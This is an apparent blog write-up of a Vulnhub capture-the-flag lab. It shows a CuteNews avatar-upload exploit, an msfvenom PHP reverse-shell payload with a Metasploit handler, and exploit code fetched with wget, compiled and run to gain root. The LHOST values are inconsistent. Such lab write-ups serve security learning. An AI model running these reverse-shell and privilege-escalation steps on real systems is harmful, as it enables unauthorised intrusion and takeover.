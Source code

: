 Title:Vulnhub SecTalks: BNE0x03 - Simple
Date: 05-11-2016 19:55
category:security
tags:msfvenom, security, vulnhub, metasploit, boot2root
meta:msfvenom, security, vulnhub, metasploit, boot2root

<img class="align-left"
src="/media/2016.05/simple1.png" alt="Simple homepage" width="162">

As droopy was not really hard and doesn't contain as much web vulnerability as I
would hope for, I tried an other VM
[SecTalks: BNE0x03 - Simple](https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141/)
There were also hints on the description of the machine but with my resolution
they do not appear when just browsing the main page of vulnhub so I have not
spoiled myself with the hints this time.

<!-- PELICAN_END_SUMMARY -->

## Discovery

Let's nmap the box to get some knowledge about it:

    root@kalili:~# nmap 10.0.2.5 -p0-65535

    Starting Nmap 7.12 ( https://nmap.org ) at 2016-05-11 15:42 CEST
    Nmap scan report for 10.0.2.5
    Host is up (0.00032s latency).
    Not shown: 65535 closed ports
    PORT   STATE SERVICE
    80/tcp open  http
    MAC Address: 08:00:27:60:21:5C (Oracle VirtualBox virtual NIC)

    Nmap done: 1 IP address (1 host up) scanned in 2.60 seconds

There seems once more that only the port 80 with a HTTP service is available.

## Web

We go to the website. We notice that it is powered by CuteNews 2.0.3 (look at
the footer). We search on internet for vulnerability and found
[one](https://www.exploit-db.com/exploits/37474/).
This vulnerability allow the execute PHP code by uploading a malicious avatar.

![Simple homepage](/media/2016.05/simple1.png)

We create an account in order to upload our avatar.

![Simple account page](/media/2016.05/simple2.png)

We generate a PHP meterpreter using `msfvenom`:

    msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -e php/base64 -f raw > /tmp/shell.php

We prepare our metasploit for the callback:

    msf > use exploit/multi/handler
    msf exploit(handler) > set payload php/meterpreter/reverse_tcp
    payload => php/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 10.0.2.5
    LHOST => 10.0.2.5
    msf exploit(handler) > set LPORT 4444
    LPORT => 4444
    msf exploit(handler) > exploit
    [*] Started reverse handler on 10.0.2.5:4444
    [*] Starting the payload handler...

We upload our msfvenom's payload as our avatar.

We go to `http://10.0.2.5/uploads/avatar_john_shell.php` and we got our
meterpreter!
Let's see what this box is made of:

    uname -a
    Linux simple 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux

Once more an Ubuntu 14.04, like the droopy from yesterday.

## Privileges escalation

### CVE-2015-1328 exploiting overlayFS

Let us try once again to exploit the CVE-2015-1328 exploiting overlayFS to get
a root shell on the machine. I started a shell from the meterpreter, download
the exploit, compile it, run it and failed it:

    meterpreter > shell
    Process 1335 created.
    Channel 3 created.
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    wget https://www.exploit-db.com/download/37292
    --2016-05-11 09:59:52--  https://www.exploit-db.com/download/37292
    Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
    Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 5123 (5.0K) [application/txt]
    Saving to: '37292'

        0K .....                                                 100%  409M=0s

    2016-05-11 09:59:53 (409 MB/s) - '37292' saved [5123/5123]

    mv 37292 ofs.c
    gcc ofs.c -o ofs
    ls
    avatar_john_shell.php
    ofs
    ofs.c
    chmod +x ofs
    ./ofs
    spawning threads
    mount #1
    mount #2
    child threads done
    exploit failed

When searching for exploit regarding linux 3.16.0 I found the CVE-2014-5207:

### CVE-2014-5207 Fuse-based exploit

[CVE-2014-5207 Fuse-based exploit](https://www.exploit-db.com/exploits/34923/).
I download the exploit, compiled it and once more failed it:

    :::text
    gcc -Wall fuse_suid.c `pkg-config fuse --cflags --libs` -o fuse_suid
    /bin/sh: 1: pkg-config: not found
    fuse_suid.c:21:18: fatal error: fuse.h: No such file or directory
    #include <fuse.h>
                      ^
    compilation terminated

When searching for `ubuntu 14.04 privilege escalation exploit` I found two
interesting exploits :
 * CVE-2015-3643
 * CVE-2015-1318 + CVE-2015-1862

### CVE-2015-3643

[The CVE-2015-3643](https://www.exploit-db.com/exploits/36820/) exploit the
D-Bus listening on com.ubuntu.USBCreator.
I try this exploit but the module was not available and failed:

    dbus-send --print-reply --system --dest=com.ubuntu.USBCreator /com/ubuntu/USBCreator com.ubuntu.USBCreator.KVMTest string:/dev/sda dict:string:string:DISPLAY,"foo",XAUTHORITY,"foo",LD_PRELOAD,"/tmp/test.so"
    Error org.freedesktop.DBus.Error.ServiceUnknown: The name com.ubuntu.USBCreator was not provided by any .service files

### CVE-2015-1318 + CVE-2015-1862

[The CVE-2015-1318 + CVE-2015-1862](https://www.exploit-db.com/exploits/36746/)
exploit a feature in ubuntu 14.04 allowing a user to forward crash reports
([more informations here](http://exploiterz.blogspot.fr/2015/04/2015-cve-1318-leading-to-privilege.html)).
I download the exploit, compiled it with `-static` and run it to get a root
shell on the box:

    meterpreter > shell
    Process 1550 created.
    Channel 9 created.
    cd /tmp/
    wget https://www.exploit-db.com/download/36746
    --2016-05-11 11:22:39--  https://www.exploit-db.com/download/36746
    Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
    Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 5216 (5.1K) [application/txt]
    Saving to: '36746'

        0K .....                                                 100%  337M=0s

    2016-05-11 11:22:43 (337 MB/s) - '36746' saved [5216/5216]

    mv 36746 newpid.c
    gcc -static newpid.c
    newpid.c:17:3: warning: #warning this file must be compiled with -static [-Wcpp]
    # warning this file must be compiled with -static
      ^
    ./a.out
    uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
    id
    uid=0(root) gid=33(www-data) groups=0(root),33(www-data)

## Conclusion

We just need to get our hands on the flag to finish it.

    cat /root/flag.txt
    U wyn teh Interwebs!!1eleven11!!1!
    Hack the planet

It was a nice box with still not so much web exploitation and only one exploit
to launch to get to root.
Thanks to [Robert Winkel](https://twitter.com/@RobertWinkel) for the box and as
always to Vulnhub for their work.
